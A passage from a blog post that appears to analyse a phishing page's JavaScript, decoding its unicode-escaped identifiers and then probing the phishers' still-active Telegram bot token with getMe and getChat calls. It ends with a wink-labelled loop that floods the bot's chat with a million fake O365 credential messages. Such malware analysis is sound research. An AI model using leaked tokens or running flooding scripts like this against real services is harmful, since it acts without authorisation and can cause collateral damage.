We have the unicode codepoint of `006d` (the `\u` indicates that it's a unicode escape) and if we refer to a [unicode lookup table](https://unicode-table.com/en/) we'll see that `006d` is `m`, meaning that we have an identifier of `email`. Bet you didn't guess THAT did you!

Clearly, this particular version of the file has gone **hard** on the unicode identifiers, even down to `\u0064\u006fc\u0075m\u0065\u006e\u0074.write`, which is just `document.write`.

This brings us to the question of _why_, why would you convert all the JavaScript, or at least some of it, to unicode? I can only speculate, but I'd assume that they are doing it as a layer of obfuscation, it's just another thing that makes the code less readable to anyone who goes snooping around in it and make them think that maybe it is legitimate in what it's doing. It does come at the expense of size, going from 8.6KB to 17.8KB, which is why this isn't a common form of obfuscation for served JavaScript, but if you're running an offline file like this, it doesn't really matter.

## Digging into Telegram

In the last post I was saddened by the fact that I couldn't use the Telegram API with the token that was in the email body as it was no longer authorised. This time though, I'm pleased to say that it **is** active, at least at the time of writing!

So, let's poke it.

From the JavaScript, we can see that the token is used to call the `bot` parts of the API, suggesting that it's a valid bot token and nothing more, but let's start trying to figure out the user info for the bot. I'm going to do this in JavaScript, for something a bit different, and we'll start by getting the bot and chat info:

```javascript
import "dotenv/config";

(async () => {
  const token = process.env.TELEGRAM_TOKEN || "";
  const chat_id = process.env.CHAT_ID || "";
  const telegramAPIBase = `https://api.telegram.org/bot${token}`;

  let res = await fetch(`${telegramAPIBase}/getMe`, { method: "POST" });
  let json = await res.json();
  console.log("me", json);

  res = await fetch(`${telegramAPIBase}/getChat`, {
    method: "POST",
    body: JSON.stringify({ chat_id }),
    headers: {
      "Content-Type": "application/json",
      "cache-control": "no-cache",
    },
  });
  json = await res.json();
  console.log("chat", json);
})();
```

This sees the following dumped to the console:

```
me {
  ok: true,
  result: {
    id: 5742807394,
    is_bot: true,
    first_name: 'countduque',
    username: 'countduque11_bot',
    can_join_groups: true,
    can_read_all_group_messages: false,
    supports_inline_queries: false
  }
}
chat {
  ok: true,
  result: {
    id: 5486255038,
    first_name: 'Count',
    last_name: 'Duque',
    type: 'private'
  }
}
```

So our bot is named `countduque` and they are in a private chat (which isn't surprising really), but what is surprising, and somewhat annoying, is that the user has `can_read_all_group_messages` set to `false`, which [is the default for bots](https://core.telegram.org/bots#privacy-mode). The impact of this is that the bot is unable to read out the messages of the chat. I had assumed that they were using the bot as the input and output processing, but it seems like it's just feeding the data in and either they have a person on the other end that reads the messages, or a different bot that reads them. Given the semi-structured nature of the input, I'm guessing they have another bot that's reading the messages.

To validate, I use the `getUpdates` endpoint, but through all my testing, I was unable to get back any messages, even when I submitted them I was unable to read them back immediately... _queue sad face_.

I guess that I'm not going to be able to get much further with this bot... so instead I spammed it with 1000000 fake messages... _as you do_.

## Summary

I'm enjoying this exploration into the spammer emails. It was interesting to see the use of unicode for identifier names as a way to obfuscate the code a little more (at least, so I assume), and I'm not surprised that I wasn't able to pull the messages from the Telegram chat, just saddened that I couldn't.

I'll just have to keep an eye out for the next one that comes in and see if I can learn any more.

Oh, and I'd totally not encourage anyone to use the token/chat ID that was in this to run code such as this:

```javascript
  for (let i = 0; i < 1000000; i++) {
    const message = `====== O365 Result ======\\r\\nEmail: ${email}\\r\\nPassword1: ${password}\\r\\nPassword2: ${password}\\r\\nIP: https://ip-api.com/0.0.0.0\\r\\nUser-Agent: Mozilla/4.02 [en] (X11; I; SunOS 5.6 sun4u)\\r\\n===================`;
    await fetch(`${telegramAPIBase}/sendMessage`, {
      method: "POST",
      body: JSON.stringify({ chat_id: chat_id, text: message }),
      headers: {
        "Content-Type": "application/json",
        "cache-control": "no-cache",
      },
    });
  }
```

I really wouldn't... 😏

